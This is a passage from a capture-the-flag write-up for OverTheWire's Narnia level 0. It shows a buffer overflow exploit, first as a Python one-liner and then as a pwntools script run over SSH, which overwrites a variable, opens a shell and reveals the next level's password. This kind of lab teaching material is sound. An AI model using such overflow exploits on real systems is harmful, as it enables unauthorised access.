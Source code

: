 ```bash
du: cannot read directory './dev/shm': Permission denied
^C

```

`/etc/narnia_pass/narnia1` sounds like the right file which of course, it's unreacheable unless you're `narnia1` user:

```bash
narnia0@narnia:/$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@narnia:/$ ls -l /etc/narnia_pass/narnia1
-r-------- 1 narnia1 narnia1 11 Nov  9 15:08 /etc/narnia_pass/narnia1
```

but, we can do so through the previous method so let's do it:

```
narnia0@narnia:/$ (python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
efeidiedae

```

### Using pwntools
```Python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0', port=2226)
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
while 1:
    print(sh.recvline())
# log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()

```

Gets us:
```bash
root@da7a0fa7b53e:/tutorial/CTF/narnia/level0# python exploit.py
[+] Connecting to narnia.labs.overthewire.org on port 2226: Done
[!] Couldn't check security settings on 'narnia.labs.overthewire.org'
[+] Opening new channel: '/narnia/narnia0': Done
Correct val's value from 0x41414141 -> 0xdeadbeef!

Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?

val: 0xdeadbeef

$ efeidiedae
```
